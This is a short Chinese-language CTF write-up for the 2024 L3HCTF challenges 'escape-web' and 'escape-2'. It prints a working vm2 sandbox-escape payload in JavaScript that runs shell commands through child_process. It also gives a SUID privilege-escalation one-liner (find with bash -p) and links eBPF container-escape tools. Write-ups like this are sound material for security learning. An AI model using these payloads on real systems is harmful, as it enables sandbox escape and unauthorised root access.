

# 2024-L3HCTF

## escape-web

node.js的vm2逃逸，通过软连接读取flag

```js
async function fn() {
    (function stack() {
		new Error().stack;
		stack();
    })();
}

p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { console.log(err.constructor.constructor('return process')().mainModule.require('child_process').execSync('ln -sf /flag /app/output.txt').toString()); }
            )
        }
    }
};
p.then();
```


## escape-2

首先suid提权：

```bash
find /usr/bin/su -exec /bin/bash -p \; -quit
```

看一下cap有admin，因为有apparmor的限制所以很明显是eBPF（没了解过的话确实就不知道了）。


利用的工具是[TomAPU/bpfcronescape](https://github.com/TomAPU/bpfcronescape) ，我自己之前写的集成利用工具[bfengj/eBPFeXPLOIT: Exploit tool implemented using ebpf.](https://github.com/bfengj/eBPFeXPLOIT) 这题没法用，因为我写的利用部分的代码是hook的syscall，但是题目环境居然没有：



非常的奇怪，这和内核的版本似乎无关，我内核4.x的Linux里面都有syscall，但是环境没有，奇怪的环境问题了。